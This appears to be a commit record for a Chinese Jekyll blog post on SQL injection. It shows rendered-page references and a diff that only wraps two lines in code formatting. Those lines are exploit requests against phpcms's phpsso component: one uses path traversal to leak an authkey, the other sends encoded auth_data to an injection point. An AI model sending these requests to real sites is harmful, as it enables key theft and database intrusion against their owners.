

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-11-29-SQLInjection6.md, in a window 1280 px wide and 900 px high, scrolled down 2898 px. Shown: the whole window, without its empty margins (202-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

```diff
--- a/_posts/2020-11-29-SQLInjection6.md
+++ b/_posts/2020-11-29-SQLInjection6.md
@@ -136,11 +136,11 @@ http://xxx/com/x/detail.php?id=1234
 
 #### 1. 用exp爆出注入点
 
-api.php?op=get_menu&act=ajax_getlist&callback=aaaaa&parentid=0&key=authkey&cachefile=..\..\..\phpsso_server\caches\caches_admin\caches_data\applist&path=admin
+`api.php?op=get_menu&act=ajax_getlist&callback=aaaaa&parentid=0&key=authkey&cachefile=..\..\..\phpsso_server\caches\caches_admin\caches_data\applist&path=admin`
 
 或者以下
 
-/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=662dCAZSAwgFUlUJBAxbVQJXVghTWVQHVFMEV1MRX11cBFMKBFMGHkUROlhBTVFuW1FJBAUVBwIXRlgeERUHQVlIUVJAA0lRXABSQEwNXAhZVl5V
+`/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=662dCAZSAwgFUlUJBAxbVQJXVghTWVQHVFMEV1MRX11cBFMKBFMGHkUROlhBTVFuW1FJBAUVBwIXRlgeERUHQVlIUVJAA0lRXABSQEwNXAhZVl5V`
 
 #### 2. 本地搭建php网站作为中间人
 
```
